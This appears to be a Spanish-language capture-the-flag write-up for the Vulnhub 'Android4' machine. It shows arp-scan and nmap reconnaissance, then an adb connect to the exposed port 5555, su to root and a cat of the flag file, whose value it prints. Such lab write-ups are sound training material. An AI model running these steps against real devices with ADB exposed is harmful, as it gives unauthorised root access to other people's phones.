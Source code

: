 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=300&height=80&lines=ANDROID_4"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/android4-1,233/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/179633430-0029a8f7-b789-49a2-80be-12f04ed9357f.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/179633673-54c343f6-fe1c-49bd-a070-a2ccdb4cf488.png)

IP host: `192.168.25.139`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.139
```
![3](https://user-images.githubusercontent.com/75953873/179633819-76e89cc3-3e47-4f1c-9d4c-bcd153f748b9.png)

Puertos abiertos: [8080,22000,5555]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 8080,22000,5555 -A 192.168.25.139
```
![4](https://user-images.githubusercontent.com/75953873/179634411-2134bb33-54f8-45c7-a0be-b6dbb9824153.png)

Servidor web (puerto **8080**): `http://192.168.25.139:8080`

![5](https://user-images.githubusercontent.com/75953873/179634788-bc82e682-c166-43c9-bd67-366001b12fd5.png)

O.S: `Android` **--> Kernel Linux**

Puerto **5555**: Es un puerto utilizado por ADB (Puente de Depuración de Android) que se utiliza para conectarse a teléfonos móviles a través de TCP y ejecutar comandos.

- *Paso 4:* Conectarse al dispositivo vía ADB y capturar la flag.

Descargar ADB:
```
apt-get install -y adb
```

Crear conexión con el dispositivo y obtener una shell:
```
adb connect 192.168.25.139:5555
adb shell
```
![6](https://user-images.githubusercontent.com/75953873/179636318-eb4f31c6-3c25-4881-aec8-802eb3052785.png)

Acceder a superusuario (**root**) y capturar la flag del directorio `/data/root`:
```
su
cd /data/root
cat flag.txt
```
![7](https://user-images.githubusercontent.com/75953873/179636561-0b059ea4-2dd0-4c97-bc47-0ea74cfd023b.png)

**FLAG:** ANDROID{u_GOT_root_buddy}
